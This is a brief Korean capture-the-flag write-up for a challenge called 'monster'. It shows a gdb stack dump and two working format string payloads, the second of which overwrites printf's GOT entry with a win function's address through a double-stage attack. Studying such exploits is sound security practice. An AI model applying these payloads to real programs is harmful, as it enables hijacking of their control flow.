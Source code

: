 # monster

본 문제는 `printf(s)`의 형식으로 사용하여 FSB 취약점이 발생하는 문제입니다. 다만 s가 bss영역에 쓰여지기 때문에 double stage FSB를 발생합니다.



win함수의 주소 : 0x080485bd

printf함수의 got : 0x804a00c



```python
gdb-peda$ x/100wx $esp
0xffffcf80:	0x0804a060	0x00000032	0xf7fb35a0	0x0804875d
0xffffcf90:	0xf7fb33dc	0xffffcfb0	0x00000000	0xf7e1b647
0xffffcfa0:	0xf7fb3000	0xf7fb3000	0x00000000	0xf7e1b647
0xffffcfb0:	0x00000001	0xffffd044	0xffffd04c	0x00000000
0xffffcfc0:	0x00000000	0x00000000	0xf7fb3000	0xf7ffdc04
0xffffcfd0:	0x00000001	0x00000000	0xf7fb3000	0xf7fb3000
0xffffcfe0:	0x00000000	0x62d3a61d	0x5e20c80d	0x00000000
0xffffcff0:	0x00000000	0x00000000	0xffffd040	0xf7fd9000
0xffffd000:	0xf7fd92e4	0x00000001	0x00000000	0xf7ffd000
0xffffd010:	0x00000001	0x08048490	0x00000000	0x080484b1
0xffffd020:	0x08048747	0x00000001	0xffffd044	0x08048870
0xffffd030:	0x080488d0	0xf7fe8880	0xffffd03c	0xf7ffd918
0xffffd040:	0x00000001	0xffffd227	0x00000000	0xffffd257
0xffffd050:	0xffffd262	0xffffd274	0xffffd28a	0xffffd2bd
0xffffd060:	0xffffd2cc	0xffffd300	0xffffd310	0xffffd327
0xffffd070:	0xffffd338	0xffffd34c	0xffffd36f	0xffffd381

```





##### 과정

1. fsb를 이용하여 stack안의 적당한 포인터인 0xffffcfb0의 자리에 printf의 got로 값 modify

%8x %8x %8x %8x %8x %8x %8x %134520780x %n : 0xffffcfb0의 값을 0x804a00c(printf의 got)으로 변경

2. double stage fsb를 이용하여 printf함수의 got를 win함수의 주소로 덮어서 익스

%8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %8x %134514150x %n : printf의 got를 0x080485bd(win함수의 주소)로 변경

